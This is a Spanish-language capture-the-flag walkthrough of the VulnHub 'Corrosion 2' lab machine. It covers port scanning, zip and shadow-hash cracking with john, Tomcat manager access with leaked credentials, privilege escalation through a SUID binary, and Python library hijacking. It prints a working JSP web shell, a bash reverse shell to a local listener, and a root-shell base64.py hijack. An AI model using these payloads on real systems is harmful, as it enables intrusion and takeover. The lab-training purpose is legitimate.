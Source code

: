 #ctf-machine #vulnhub #easy-machine #linux  [Vulnhub  Link](https://www.vulnhub.com/entry/corrosion-2,745/)

## Enumeración inicial
Como no conocemos la IPv4 de nuestra máquina víctima, primeramente hacemos un escaneo ARP con `arp-scan` para identificarla:
![[Pasted image 20240826115857.png]]

Como el OUI de la MAC es "00:0c", que es el que se suele utilizar en máquinas importadas de Vulnhub, podemos decir que la IPv4 de la máquina víctima es "192.168.159.145".

Si lanzamos una traza ICMP a la máquina, vemos que probablemente se trate de un sistema Linux, ya que su TTL es 64 y normalmente las máquinas Linux tienen ese valor de TTL.
![[Pasted image 20240826115953.png]]

### Nmap
Lanzamos un primer escaneo con `nmap` para detectar los puertos TCP abiertos en la máquina:
![[Pasted image 20240826120441.png]]

Como vemos hay 3 puertos abiertos, los puertos 22, 80 y 8080. Así que hacemos un segundo escaneo con `nmap` para detectar la versión y servicio que corren para estos puertos:
![[Pasted image 20240826120623.png]]

Observamos que `nmap` nos reporta versiones de "Apache" y "OpenSSH" de Ubuntu por lo que podemos asegurar que se trata de un sistema Linux. 

Con ayuda de la páquina de "launchpad" podemos identificar provisionalmente de que tipo de Ubuntu es:
![[Pasted image 20240826120826.png]]
![[Pasted image 20240826120904.png]]

Como podemos ver se trata de un Ubuntu Focal.

Hacemos un último escaneo con `nmap` con el objetivo de encontrar algunos directorios en la web de los puertos 80 y 8080:
![[Pasted image 20240826121105.png]]

Como vemos hay diversos directorios, incluido un archivo bastante interesante llamado "backup.zip".


## Enumeración web
Si empezamos descargándonos el archivo "backup.zip" y lo intentamos descomprimir vemos que esta protegido bajo contraseña:
![[Pasted image 20240826121353.png]]

Por lo que podemos probar de *crackerlo* con `john`. Así que primeramente utilizamos la herramienta `zip2john` para que la herramienta `john` pueda intentar *crackearlo*:
![[Pasted image 20240826121639.png]]

Una vez convertido a *hash* utilizamos la herramienta `john` junto al diccionario "rockyou.txt" para intentar averiguar la contraseña:
![[Pasted image 20240826122024.png]]

Como vemos la contraseña es "@administrator_hi5", así que ya podemos descomprimir el archivo zip:
![[Pasted image 20240826122357.png]]

Si enumeramos estos archivos, finalmente en el archivo `tomcat-users.xml` podemos ver unas credenciales:
![[Pasted image 20240826122651.png]]

Así que accedemos a la web para ver donde podríamos utilizarlas. Si accedemos a la web del puerto 8080 vemos la página por defecto de Apache Tomcat:
![[Pasted image 20240826122924.png]]

Podemos intentar acceder al "Manager App" con las credenciales que habíamos encontrado:
![[Pasted image 20240826124457.png]]

Y como vemos, tenemos acceso, por lo que podemos obtener RCE si subimos un archivo "war" con código Java que nos entable una *reverse shell* en el puerto 443. 
![[Pasted image 20240826124847.png]]


Por lo que podemos utilizar crear un archivo "index.jsp" diseñado para que nos dé una *web shell*:
```jsp
<FORM METHOD=GET ACTION='index.jsp'>
<INPUT name='cmd' type=text>
<INPUT type=submit value='Run'>
</FORM>
<%@ page import="java.io.*" %>
<%
   String cmd = request.getParameter("cmd");
   String output = "";
   if(cmd != null) {
      String s = null;
      try {
         Process p = Runtime.getRuntime().exec(cmd,null,null);
         BufferedReader sI = new BufferedReader(new
InputStreamReader(p.getInputStream()));
         while((s = sI.readLine()) != null) { output += s+"</br>"; }
      }  catch(IOException e) {   e.printStackTrace();   }
   }
%>
<pre><%=output %></pre>
```

Una vez creado, creamos un directorio "web-shell" y lo metemos dentro para posteriormente crear el ".war" con Java:
![[Pasted image 20240826125719.png]]

Una vez creado lo subimos mediante la utilidad anterior mostrada:
![[Pasted image 20240826125814.png]]
![[Pasted image 20240826125827.png]]

Como podemos ver ya está subida por lo que si accedemos a `/webshell` obtenemos una *webshell* con la que ejecutar comandos:
![[Pasted image 20240826125919.png]]

Y nos podemos entablar una *reverse shell* ejecutando el comando:
```bash
bash -c $@|bash 0 echo bash -i >& /dev/tcp/192.168.159.131/9090 0>&1
```

> [!NOTE] El comando es algo diferente a lo habitual porque se esta utilizando Java

Y poniéndonos en escucha por el puerto 9090 con `nc` obtenemos la *shell* como "tomcat":
![[Pasted image 20240826143727.png]]

Entonces hacemos el tratamiento de la TTY:
![[Pasted image 20240826143848.png]]
![[Pasted image 20240826143923.png]]


## Escalada de privilegios
Si listamos los usuarios del sistema vemos los siguientes:
![[Pasted image 20240826144307.png]]

Por lo que podemos intentar migrar a otro usuario con la credencial que teníamos de antes. Al intentarlo con el usuario "jaye" obtenemos acceso:
![[Pasted image 20240826144444.png]]

Si acedemos a `/home/randy` podemos visualizar la primera *flag*:
![[Pasted image 20240826144559.png]]

Al buscar por archivos con permisos SUID vemos un archivo extraño:
![[Pasted image 20240826145227.png]]

No tenemos permisos de escritura en este archivo, pero podemos ejecutarlo como *root*:
![[Pasted image 20240826145335.png]]

Investigando un poco como se ejecuta, parece ser un archivo que se encarga de buscar un *string* en un archivo:
![[Pasted image 20240826145755.png]]

Como tenemos permisos de *root* para listar el contenido de archivos podemos listar el contenido del `/etc/shadow`:
![[Pasted image 20240826145930.png]]

Por lo que nos guardamos el `/etc/passwd` de *root* en un archivo "passwd.txt" y el `/etc/shadow` de *root* en un archivo "shadow.txt" para utilizar la herramienta `unshadow` para poder *crackear* con `john` la contraseña:
![[Pasted image 20240826150736.png]]

Una vez generado el *hash*, lo intentamos *crackear* con `john` junto al diccionario "rockyou.txt". Pero no encontramos ninguna contraseña por lo que podemos probar con el usuario "randy":
![[Pasted image 20240826152423.png]]
![[Pasted image 20240826152333.png]]

Nuevamente utilizando `john` junto al diccionario "rockyou.txt":
![[Pasted image 20240826155044.png]]

La contraseña conseguida, la utilizamos para migrar a *randy*:
![[Pasted image 20240826155202.png]]

Si ahora mostramos los permisos a nivel de *sudoers* del usuario "randy" vemos que tiene permisos para ejecutar este archivo con Python3:
![[Pasted image 20240826155237.png]]

Por lo que si mostramos su contenido vemos que utiliza la librería "base64":
![[Pasted image 20240826155309.png]]

No podemos acontecer un *Python Library Hijacking* de primeras porque no tenemos permisos de escritura en el directorio actual:
![[Pasted image 20240826155451.png]]

Pero somos nosotros el propietario por lo que podemos modificar los permisos:
![[Pasted image 20240826155546.png]]

Por lo que si mostramos el *PATH* de Python vemos que lo primero que contempla es el directorio actual por lo que podemos crear un archivo con nombre "base64.py" para acontecer un *Python Library Hijacking*
![[Pasted image 20240826155819.png]]

Si creamos el archivo "base64.py" con este contenido obtendremos una *bash* como *root* al ejecutar el archivo Python con *sudo*:
```python
import os
os.system("bash -p")
```

Si lo ejecutamos obtenemos una *bash* como *root*:
![[Pasted image 20240826160201.png]]

Si finalmente accedemos al directorio `/root` podemos visualizar la última *flag*:
![[Pasted image 20240826160238.png]]



___
#web-enumeration #information-leakage #python-library-hijacking #abusing-sudoers  #hash-cracking #abusing-suid 
___







